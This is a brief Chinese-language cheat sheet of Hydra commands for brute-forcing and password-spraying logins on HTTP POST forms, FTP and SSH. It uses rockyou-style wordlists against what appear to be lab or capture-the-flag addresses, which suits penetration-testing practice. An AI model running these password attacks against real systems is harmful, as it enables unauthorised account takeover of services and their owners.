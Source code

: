 # Hydra 实战语句

- 破解列表

```
    sudo hydra -L users.txt -P wordlist.txt
```

- 破解单个

```
    sudo hydra -l "aaa" -P wordlist.txt
```

- WebSite POST 破解

```
sudo hydra -l "key" -P /usr/share/wordlists/rockyou.txt 10.10.10.7 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"
```

-  Ftp 密码喷射

```
sudo hydra -L hash/users.lst -P /usr/share/wordlists/rockyou.txt ftp://10.10.10.35 -f
```

- ssh 密码喷射

```
hydra -l sword -P passwords.txt ssh://10.10.10.5 -t 30 -V
```
